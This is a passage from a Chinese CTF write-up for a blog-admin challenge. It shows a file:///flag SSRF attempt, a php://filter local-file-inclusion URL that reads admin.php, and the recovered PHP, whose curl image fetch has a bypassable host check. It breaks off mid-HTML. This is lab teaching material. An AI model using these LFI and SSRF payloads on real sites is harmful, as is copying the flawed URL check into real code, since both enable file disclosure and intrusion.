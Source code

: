 登录成功：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120165508.png)

看样子只有插入图片的地方能搞事；

XSS不能读取服务器文件，那就[SSRF](https://blog.csdn.net/fageweiketang/article/details/88983921)：

```
file:///flag
```

试一下，不行；

文件包含读取admin.php:

```
http://cosmos-admin.hgame.day-day.work/?action=php://filter/read=convert.base64-encode/resource=admin.php
```

admin.php:

```
<?php
include "config.php";
session_start();
if(!isset($_SESSION['username'])) {
    header('Location: index.php');
    exit();
}

function insert_img() {
    if (isset($_POST['img_url'])) {
        $img_url = @$_POST['img_url'];
        $url_array = parse_url($img_url);
        if (@$url_array['host'] !== "localhost" && $url_array['host'] !== "timgsa.baidu.com") {
            return false;
        }   
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $img_url);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        $res = curl_exec($c);
        curl_close($c);
        $avatar = base64_encode($res);

        if(filter_var($img_url, FILTER_VALIDATE_URL)) {
            return $avatar;
        }
    }
    else {
        return base64_encode(file_get_contents("static/logo.png"));
    }
}
?>

<html>
    <head>
        <title>Cosmos’ Blog - 后台管理</title>
    </head>
    <body>
        <a href="logout.php">退出登陆</a>
        <div style="text-align: center;">
            <h1>Welcome <?php echo $_SESSION['username'];?> </h1>
        </div>
        <form action="" method="post">
            <fieldset style="width: 30%;height: 20%;float:left">
                <legend>插入图片</legend>
```